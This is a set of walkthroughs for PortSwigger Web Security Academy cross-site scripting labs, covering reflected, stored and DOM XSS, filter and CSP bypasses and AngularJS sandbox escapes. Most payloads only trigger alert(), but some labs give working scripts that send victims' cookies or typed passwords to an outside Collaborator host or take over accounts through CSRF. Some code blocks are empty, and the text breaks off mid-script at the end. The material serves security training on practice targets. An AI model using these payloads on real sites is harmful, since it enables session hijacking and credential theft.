

# Cross-site scripting

## Reflected XSS into HTML context with nothing encoded

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) contains a simple reflected cross-site scripting vulnerability in the search functionality. 

### Reproduction and proof of concept

1. Copy and paste into the search box:

```text
<script>alert(1)</script>
```


    
2. Click "Search".


----

## Stored XSS into HTML context with nothing encoded

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) contains a stored cross-site scripting vulnerability in the comment functionality.  

### Reproduction and proof of concept

1. Enter the following into the comment box:

```text
<script>alert('Hello World')</script>
```

2. Enter a name, email and website.


3. Click **Post comment**.
4. Go back to the blog.


----

## DOM XSS in document.write sink using source location.search

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink) contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which can be controlled using the website URL.

### Reproduction and proof of concept

1. Enter a random alphanumeric string into the search box.
2. Right-click and inspect the element, and observe that your random string has been placed inside an `img src` attribute.


3. Break out of the `img` attribute:

```text
"><script>alert('Hello World')</script>
```

[DOM XSS](../../_static/images/dom5.png)


----

## DOM XSS in innerHTML sink using source location.search

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink) contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from `location.search`.

### Reproduction and proof of concept

1. If there is a query in the `location.search` variable (the URL input), `document.getElementById` gets the element with ID `searchMessage`. Then it will set its `innerHTML` to the query. Enter into the search box: 

```text

```


During the rendering of the page, the image fails to load. This will raise the JavaScript `alert`  box, confirming the XSS vulnerability.

----

## DOM XSS in jQuery anchor href attribute sink using location.search source

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink) contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

### Reproduction and proof of concept

1. On the Submit feedback page, change the query parameter returnPath to `/` followed by a random alphanumeric string.
2. Right-click and inspect the element, and observe that your random string has been placed inside an `a href` attribute.
3. Change returnPath to:

```text
javascript:alert(document.cookie)
```

For example:

    https://0a1800ac03209537c12be0bd005f00f0.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
    
4. Hit enter and click the `Back` button on the site to trigger the attack.


----

## DOM XSS in jQuery selector sink using a hashchange event

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event) contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

### Reproduction and proof of concept

1. Notice the vulnerable code on the home page using Burp or the browser's DevTools. 

```text
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

A [Jquery hashchange](https://github.com/apopelo/jquery-hashchange) event tracks URL history changes. When a change happens, `decodeURIComponent` is called on the `window.location.hash`. If that part of the page exists, the browser scrolls to it.

2. Create exploit:

```text
<iframe src="https://lab-id.web-security-academy.net/#" onload="this.src+=''">
```

3. From the lab banner, open the exploit server.
4. For delivery, up top click on Go To Exploit Server, enter the exploit in the body field and **Store** the changes.


5. Then click **View Exploit** to try it out on yourself. If that worked, click **Deliver Exploit to Victim**.


----

## Reflected XSS into attribute with angle brackets HTML-encoded

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded) contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded.

Also see the leads from HackTricks concerning [XSS methodology](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#methodology) and [XSS Inside HTML tags attribute](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#inside-html-tags-attribute): _2. If you can escape from the attribute but not from the tag (-> is encoded or deleted), depending on the tag you could create an event that executes JS code:_

### Reproduction and proof of concept

1. Put a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. The random string has been reflected inside a quoted attribute.
3. Replace the input with a payload to escape the quoted attribute and inject an event handler:

```text
" autofocus onfocus=alert(1) x="
```

4. Verify the technique worked by right-clicking, selecting "Copy URL", and pasting the URL in the browser. When you move the mouse over the injected element it should trigger an alert.


The resulting HTML:

```text
<section class=blog-header>
    <h1>0 search results for '&quot; autofocus onfocus=alert(1) x=&quot;'</h1>
    <hr>
</section>
```

----

## Stored XSS into anchor href attribute with double quotes HTML-encoded

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded) contains a stored cross-site scripting vulnerability in the comment functionality.

### Reproduction and proof of concept

1. Post a comment with a random alphanumeric string in the "Website" input, then use Burp Suite to intercept the request and send it to Burp Repeater.
2. Make a second request in the browser to view the post and use Burp Suite to intercept the request and send it to Burp Repeater.
3. The random string in the second Repeater tab has been reflected inside an anchor `href` attribute.
4. Repeat the process again, replacing the input with a payload to inject a JavaScript URL that calls alert:

```text
javascript:alert(1)
```


    
5. Verify the technique worked by right-clicking, selecting **Copy URL**, and pasting the URL in the browser. Clicking the name above the comment should now trigger an alert.

----

## Reflected XSS into a JavaScript string with angle brackets HTML encoded

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. Also see the HackTricks XSS page, in the section on [Inside JavaScript code](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#inside-javascript-code).

### Reproduction and proof of concept

1. Put a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.

```text
<script>
    var searchTerms = '&lt;alphanumeric';
    document.write('');
</script>
```

2. The random string has been reflected inside a JavaScript string: The script accepts input, assigns it to the variable `searchTerms`, and does a `document.write` with the encoded URL using `encodeURIComponent`.
3. Replace the input with this payload to break out of the JavaScript string and inject an alert:
 
```text
'-alert('XSS')-'
```


----

## DOM XSS in document.write sink using source location.search inside a select element

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element) contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The document.write function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element. 

### Reproduction and proof of concept

1. On the product pages, notice that the dangerous JavaScript extracts a storeId parameter from the `location.search` source. It then uses `document.write` to create a new option in the select element for the stock checker functionality.

```text
<form id="stockCheckForm" action="/product/stock" method="POST">
    <input required type="hidden" name="productId" value="4">
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }
        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
    <button type="submit" class="button">Check stock</button>
</form>
```
2. Add a `storeId` query parameter to the URL and enter a random alphanumeric string as its value. Request this modified URL.

```text
https://0a07003f04c9eae2c0c9af0b0027005f.web-security-academy.net/product?productId=4&storeId=abcdef
```

3. In the browser, the random string is now listed as one of the options in the drop-down list.
4. Right-click and inspect the drop-down list to confirm that the value of the storeId parameter has been placed inside a select element. 
5. Create a suitable XSS payload inside the `storeId` parameter:

```text
https://0a07003f04c9eae2c0c9af0b0027005f.web-security-academy.net/product?productId=4&storeId=<script>alert(0)</script>
```

----

## DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression) contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded. 

### Reproduction and proof of concept

1. Enter an alphanumeric string into the search box.
2. View the page source and observe that your random string is enclosed in an `ng-app` directive.

```text
<body ng-app="" class="ng-scope">
...
</body>
```

3. Enter the following AngularJS expression in the search box:

```text
{{$on.constructor('alert(1)')()}}
```

4. Click search.

----

## Reflected DOM XSS

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected) contains a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink. 

### Reproduction and proof of concept

1. In Burp, go to the Proxy tool and turn Intercept on.
2. Go to the target website and use the search bar to search for a random test string.
3. In the Proxy tool forward the request.
4. On the Intercept tab, notice that the string is reflected in a JSON response called `search-results`.


```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 33

{"results":[],"searchTerm":"XSS"}
```

5. From the Site Map, open the `searchResults.js` file and notice that the JSON response is used with an `eval()` function call.

```text
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    ...
}
```
6. Experiment with different search strings. The JSON response is escaping quotation marks. And backslash is not being escaped.
7. Inject payload:

```text
\"-alert(1)}//
```
    
When the JSON response attempts to escape the opening double-quotes character, it adds a second backslash. The resulting double-backslash causes the escaping to be effectively canceled out. This means that the double-quotes are processed unescaped, which closes the string that should contain the search term.

An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the `alert()` function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object. As a result, the response is generated:

```text
{"searchTerm":"\\"-alert(1)}//", "results":[]} 
```

----

## Stored DOM XSS

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored) contains a stored DOM vulnerability in the blog comment functionality. In an attempt to prevent XSS, the website uses the JavaScript `replace()` function to encode angle brackets.

### Reproduction and proof of concept

1.  Use a comment with the vector:

```text
<>
```

----

## Exploiting cross-site scripting to steal cookies

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted.

### Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click **Copy to clipboard** to copy a unique Burp Collaborator payload to the clipboard.
3. Submit the payload in a blog comment, inserting your Burp Collaborator subdomain where indicated. This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

```text
<script>
    fetch('https://kocnw0mrbkcqli3hz8v75eaoofu6iw6l.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```

The request contains

```text
csrf=v2vsUOVw1AzS5JTcIE0gfOxlGpqzwju5&postId=10&comment=%3Cscript%3E%0D%0A++++fetch%28%27https%3A%2F%2Fkocnw0mrbkcqli3hz8v75eaoofu6iw6l.oastify.com%27%2C+%7B%0D%0A++++method%3A+%27POST%27%2C%0D%0A++++mode%3A+%27no-cors%27%2C%0D%0A++++body%3Adocument.cookie%0D%0A++++%7D%29%3B%0D%0A%3C%2Fscript%3E&name=Evil&email=evil%40doer.com&website=
```

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.


6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

### Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server, meaning Burp Pro.

And there is an alternative solution to this lab that does not require Burp Collaborator: Make the victim post their session cookie within a blog comment by exploiting the XSS to perform CSRF. This exposes the cookie publicly, and discloses evidence that the attack was performed. 

----

## Exploiting cross-site scripting to capture passwords

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords) contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. 

### Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Enter the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:

```text
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://dyfm57w738b9ce3s2hdcovtg177yvojd.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.


6. Use the credentials to log in as the administrator user.

### Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server.

And there is an alternative solution to this lab that does not require Burp Collaborator: adapt the attack to make the victim post their credentials within a blog comment by exploiting the XSS to perform CSRF. This is far less subtle because it exposes the username and password publicly, and also discloses evidence that the attack was performed. 

----

## Exploiting XSS to perform CSRF

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf) contains a stored XSS vulnerability in the blog comments function.

### Reproduction and proof of concept

1. Log in using the credentials provided. On your user account page, notice the function for updating your email address.
2. View the source for the page, and see the following information:
* You need to issue a POST request to `/my-account/change-email`, with a parameter called `email`.
* There is an anti-CSRF token in a hidden input called token.

This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.

3. Enter the following payload in a blog comment:

```text
<script>
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
    req.send();
    function handleResponse() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
    };
</script>
```
    
This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`.

----

## Reflected XSS into HTML context with most tags and attributes blocked

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors. Use the [XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### Reproduction and proof of concept

1. Inject a standard XSS vector in the search box, and intercept:

```text

```


It gets blocked. Test which tags and attributes are being blocked:

2. Open Burp's browser and use the search function in the lab. Send the resulting request to Burp Intruder.
3. In Burp Intruder, in the Positions tab, click "Clear §". Replace the value of the search term with: `<>`
4. Place the cursor between the angle brackets and click "Add §" twice, to create a payload position. The value of the search term should now look like: `<§§>`
6. Go to the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click "Copy tags to clipboard".
7. In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".
8. When the attack is finished, review the results. Note that all payloads caused an HTTP `400` response, except for the body payload, which caused a `200` response.


9. Go back to the Positions tab in Burp Intruder and replace the search term with:

```text
<body%20=1>
```

10. Place the cursor before the = character and click "Add §" twice, to create a payload position. The value of the search term should now look like: `<body%20§§=1>`
11. Visit the XSS cheat sheet again and click "Copy events to clipboard". 
12. In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the payloads list. Click "Start attack". 
13. When the attack is finished, review the results. Note that all payloads caused an HTTP `400` response, except for the `onresize` payload, which caused a `200` response. 


14. Go to the exploit server and paste the following code, replacing `0aa900f60364bf3ec1f908fa00dc005a` with your lab ID:
 
```text
<iframe src="https://0aa900f60364bf3ec1f908fa00dc005a.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


15. Click **Store** and **Deliver exploit to victim**.

----

## Reflected XSS into HTML context with all tags blocked except custom ones

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked) blocks all HTML tags except custom ones. 

### Reproduction and proof of concept

1. Go to the exploit server and paste the following code, replacing `lab-id` with your lab ID:
 
```text
<script>
    location = 'https://lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```


    
2. Click **Store** and **Deliver exploit to victim**.

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called.

----

## Reflected XSS with some SVG markup allowed

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed) has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events. 

### Reproduction and proof of concept

1. Inject a standard XSS payload in the search box:

```text

```

2. Note this payload gets blocked. Use Burp Intruder to test which tags and attributes are being blocked.
3. Open Burp's browser and use the search function in the lab. Send the resulting request to Burp Intruder.
4. In Burp Intruder, in the Positions tab, click "Clear §".
5. In the request template, replace the value of the search term with: `<>`
6. Place the cursor between the angle brackets and click "Add §" twice to create a payload position. The value of the search term should now be: `<§§>`
7. Visit the [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click "Copy tags to clipboard".
8. In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".
9. When the attack is finished, review the results. All payloads caused an HTTP `400` response, except for the ones using the `svg`, `animatetransform`, `title`, and `image` tags, which received a `200` response.


10. Go back to the Positions tab in Burp Intruder and replace the search term with:

```text
<svg><animatetransform%20=1>
```
    
11. Place the cursor before the `=` character and click "Add §" twice to create a payload position. The value of the search term should now be:

```text
<svg><animatetransform%20§§=1>
```

12. Visit the XSS cheat sheet and click "Copy events to clipboard".
13. In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the payloads list. Click "Start attack".
14. When the attack is finished, review the results. Note that all payloads caused an HTTP `400` response, except for the `onbegin` payload, which caused a `200` response.


15. Post the following URL in the browser to confirm that the `alert()` function is called and the lab is solved:

```text
https://0ad000a004968e0fc04c4fee006d000c.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```

----

## Reflected XSS in canonical link tag

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag) reflects user input in a canonical link tag and escapes angle brackets. _Note: The solution to this lab is only possible in Chrome._

### Reproduction and proof of concept

1. Visit the following URL, replacing `lab-id` with your lab ID:
 
```text
https://0a8e007b03ebd129c06bf93500c800bd.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

This sets the X key as an access key for the whole page. When a user presses the access key, the alert function is called.

2. To trigger the exploit on yourself, press one of the following key combinations:
* On Windows: ALT+SHIFT+X
* On MacOS: CTRL+ALT+X
* On Linux: Alt+X

----

## Reflected XSS into a JavaScript string with single quote and backslash escaped

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped) contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

### Reproduction and proof of concept

1. Enter a random alphanumeric string in the search box, then use Burp to intercept the search request and send it to Burp Repeater.
2. Note the random string has been reflected inside a JavaScript string.
3. Try sending the payload `test'payload` and observe that your single quote gets backslash-escaped, preventing you from breaking out of the string.
4. Replace the input with the following payload to break out of the script block and inject a new script:

```text
</script><script>alert(1)</script>
```
    
5. Verify the technique worked by right-clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.

----

## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped) contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped. 

### Reproduction and proof of concept

1. Enter a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Note the random string has been reflected inside a JavaScript string.
3. Try sending the payload `test'payload` and observe that the single quote gets backslash-escaped, preventing you from breaking out of the string.
4. Try sending the payload `test\payload` and note the backslash does not get escaped.
5. Replace the input with the following payload to break out of the JavaScript string and inject an alert:

```text
\'-alert(1)//
```
    
6. Verify the technique worked by right-clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.

----

## Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped) contains a stored cross-site scripting vulnerability in the comment functionality. 

### Reproduction and proof of concept

1. Post a comment with a random alphanumeric string in the "Website" input, then use Burp Suite to intercept the request and send it to Burp Repeater.
2. Make a second request in the browser to view the post and use Burp Suite to intercept the request and send it to Burp Repeater.
3. Note the random string in the second Repeater tab has been reflected inside an `onclick` event handler attribute.

```text
<p>
                            <a id="author" href="http://whatever" onclick="var tracker={track(){}};tracker.track('http://whatever');">Oi</a> | 26 January 2023
</p>
```

4. Repeat the process again but this time modify your input to inject a JavaScript URL that calls alert, using the following payload:

```text
http://foo?&apos;-alert(1)-&apos;
```

5. Verify the technique worked by right-clicking, selecting "Copy URL", and pasting the URL in the browser. Clicking the name above your comment should trigger an alert.

----

## Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped) contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. 

### Reproduction and proof of concept

1. Enter a random alphanumeric string in the search box, then use Burp Suite to intercept the search request and send it to Burp Repeater.
2. Note the random string has been reflected inside a JavaScript template string.

```text
<script>
    var message = `0 search results for 'abcdef'`;
    document.getElementById('searchMessage').innerText = message;
</script>
```

3. Replace the input with the following payload to execute JavaScript inside the template string:

```text
${alert(1)}
```

6. Verify the technique worked by right-clicking, selecting "Copy URL", and pasting the URL in the browser. When you load the page it should trigger an alert.

----

## Reflected XSS with event handlers and href attributes blocked

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked) contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor href attributes are blocked.

### Reproduction and proof of concept

1. Visit the following URL, replacing `0aea002d04f460bbc1d2491e00ad00da` with your lab ID:

```text
https://0aea002d04f460bbc1d2491e00ad00da.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

----

## Reflected XSS in a JavaScript URL with some characters blocked

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked) reflects the input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge, but the application is blocking some characters in an attempt to prevent XSS attacks. 

### Reproduction and proof of concept

1. Visit the following URL, replacing `0a3300f80431576bc1cf0dee00110099` with your lab ID:

```text
https://0a3300f80431576bc1cf0dee00110099.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

2. Click "Back to blog" at the bottom of the page.


The exploit uses exception handling to call the alert function with arguments. The `throw` statement is used, separated with a blank comment in order to get round the no spaces restriction. The `alert` function is assigned to the `onerror` exception handler.

As `throw` is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the `toString` property of `window` and trigger this by forcing a string conversion on `window`.

----

## Reflected XSS with AngularJS sandbox escape without strings

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings) uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS. 

### Reproduction and proof of concept

1. Visit the following URL, replacing `0ae600ec04b3716dc12345280056003b` with your lab ID:

```text
https://0ae600ec04b3716dc12345280056003b.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

The exploit uses `toString()` to create a string without using quotes. It then gets the String prototype and overwrites the `charAt` function for every string. This effectively breaks the AngularJS sandbox. Next, an array is passed to the `orderBy` filter. We then set the argument for the filter by again using `toString()` to create a string and the String constructor property. Finally, we use the `fromCharCode` method to generate the payload by converting character codes into the string `x=alert(1)`. Because the `charAt` function has been overwritten, AngularJS will allow this code where normally it would not.

----

## Reflected XSS with AngularJS sandbox escape and CSP

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp) uses CSP and AngularJS. 

### Reproduction and proof of concept

1. Go to the exploit server and paste the following code, replacing `0a5a009b039d93c0c0374b3300ea00c7` with your lab ID:

```text
<script>
location='https://0a5a009b039d93c0c0374b3300ea00c7.web-security-academy.net/?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x';
</script>
```

URL encoded:

```text
<script>
location="https://0a5a009b039d93c0c0374b3300ea00c7.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x";
</script>
```

2. Click **Store** and **Deliver exploit to victim**.

The exploit uses the ng-focus event in AngularJS to create a focus event that bypasses CSP. It also uses `$event`, which is an AngularJS variable that references the event object. The path property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the window object.

Normally, `|` is a bitwise or operation in JavaScript, but in AngularJS it indicates a filter operation, in this case the `orderBy` filter. The colon signifies an argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the window object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the window object, effectively bypassing AngularJS's window check.

----

## Reflected XSS protected by very strict CSP, with dangling markup attack

### Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack) is using a strict CSP that blocks outgoing requests to external websites.

### Reproduction and proof of concept

1. Log in to the lab using the account provided above.
2. Examine the change email function. Note there is an XSS vulnerability in the email parameter.
3. In Burp, go to the Collaborator tab.
4. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
5. Back in the lab, go to the exploit server and add the following code, replacing `lab-id` and `exploit-server-id` with your lab ID and exploit server ID respectively, and replacing `collaborator-id` with the payload just copied from Burp Collaborator.

```text
<script>
if(window.name) {
